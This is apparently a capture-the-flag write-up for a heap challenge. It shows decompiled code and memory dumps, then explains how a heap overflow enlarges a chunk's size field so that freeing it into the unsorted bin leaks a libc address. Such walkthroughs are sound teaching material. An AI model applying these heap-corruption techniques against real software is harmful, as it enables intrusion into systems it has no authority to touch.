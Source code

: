 ```c  
   printf("Item price: ");  
   __isoc99_scanf("%ld",*(undefined8 *)(items + (long)idx * 8));  
   idx = idx + 1;  
   puts("Item added successfully.");  
 }  
 return;  
}  
```

## Solution:

First I considered how to leak the libc address.  
I added 16 Items to make a big chunk.  
Then change the name of the 0th Item using a heap buffer overflow as follows:
Resize the 1st chunk from 0x21 to 0x431.

```  
0x604260:       0x0000000000000000      0x0000000000000021  
0x604270:       0x0000000000000001      0x0000000000604290  
0x604280:       0x0000000000000000      0x0000000000000031  
0x604290:       0x6161616161616161      0x6161616161616161  
0x6042a0:       0x6161616161616161      0x6161616161616161  
0x6042b0:       0x6161616161616161      0x0000000000000431   Change to 0x21 =>
0x431  
0x6042c0:       0x0000000000000000      0x00000000006042e0  
0x6042d0:       0x0000000000000000      0x0000000000000031  
0x6042e0:       0x4242424242424242      0x0000000000000000  
0x6042f0:       0x0000000000000000      0x0000000000000000  
0x604300:       0x0000000000000000      0x0000000000000021  
```

I can create a 0x430 size unsorted bin chunk by deleting the 1st Item.  
```  
0x604260:       0x0000000000000000      0x0000000000000021  
0x604270:       0x0000000000000001      0x0000000000604290  
0x604280:       0x0000000000000000      0x0000000000000031  
0x604290:       0x6161616161616161      0x6161616161616161  
0x6042a0:       0x6161616161616161      0x6161616161616161  
0x6042b0:       0x6161616161616161      0x0000000000000431  
0x6042c0:       0x00007ffff7dcdca0      0x00007ffff7dcdca0  The 1st chunk goes
into an unsorted bin  
0x6042d0:       0x0000000000000000      0x0000000000000000  
0x6042e0:       0x4242424242424242      0x0000000000000000  
0x6042f0:       0x0000000000000000      0x0000000000000000  
0x604300:       0x0000000000000000      0x0000000000000021  
```

Furthermore, if I execute the `Add` function, I can put the address of the
unsorted bin chunk in the 2nd chunk, so I can leak the libc address with the
`List` function.  
```  
   'Name: `G`\n'  
   'Price: 140737351834784\n'      =>  0x00007ffff7dcdca0  
```
